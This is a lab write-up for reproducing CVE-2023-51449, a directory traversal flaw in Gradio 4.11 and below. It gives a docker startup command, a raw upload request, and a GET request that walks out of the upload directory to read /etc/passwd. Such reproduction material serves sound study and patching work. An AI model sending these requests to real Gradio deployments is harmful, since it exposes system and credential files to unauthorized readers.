 # Gradio `file` Directory Traversal Vulnerability (CVE-2023-51449)

Gradio is a Python library for creating interactive interfaces for machine learning models. With Gradio, you can quickly build a visual, easy-to-use web interface for your model without writing any front-end code.

Gradio 4.11 and below, when authentication is not enabled, you can use a public URL to access any file on the machine running the Gradio application if you know the file path to find (for example, if the demo was created with `share=True` or on Hugging Face Spaces).

Reference Links:

+ https://github.com/gradio-app/gradio/pull/6833

+ https://github.com/gradio-app/gradio/tree/gradio%404.10.0

## Environment startup

Execute the following command to start the Gradio environment:

```
docker compose up -d
```

After successful startup, there is no authentication by default.

```
http://your-ip:7860
```

## Vulnerability Reproduction

To upload a piece of content using the upload interface, you need to obtain an accessible file path.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--


```

![image-20250424134122049](1.png)

After getting an accessible file path, use the file interface to access it and use directory traversal to read the file, and it can be read successfully.

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
```

![image-20250424134351720](2.png)

